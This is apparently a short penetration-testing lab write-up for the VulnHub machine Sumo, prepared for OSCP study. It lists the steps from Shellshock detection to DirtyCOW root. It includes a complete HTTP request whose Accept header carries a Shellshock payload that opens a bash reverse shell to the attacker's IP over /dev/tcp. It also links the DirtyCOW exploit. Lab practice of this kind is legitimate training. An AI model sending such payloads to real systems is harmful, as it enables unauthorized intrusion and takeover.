

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/VulnHub/Sumo/index.html · generator: mkdocs

# Sumo

netdiscover found this box running on the following IP

```
192.168.1.104
```

nikto identified shellshock

![[Pasted image 20220709104036.png]]

We are able to get a reverse shell as `www-data` using the following web request.

```
GET /cgi-bin/test.sh HTTP/1.1
Host: 192.168.1.104
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: () { :;}; /bin/bash -i >& /dev/tcp/192.168.1.109/4444 0>&1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

linpeas and linux-exploit-suggester both identified dirtycow as a possible privesc avenue.

I was struggling to get the exploit compiled, as I was getting an error:

```
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

I turned to a walkthrough to see what I might be missing. And we found a way to fix the error:

```
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/:/usr/bin;export PATH
```

We were able to get a root shell using [dirtycow EDB-40839](https://www.exploit-db.com/exploits/40839)

## Root flag

![[Pasted image 20220709113217.png]]
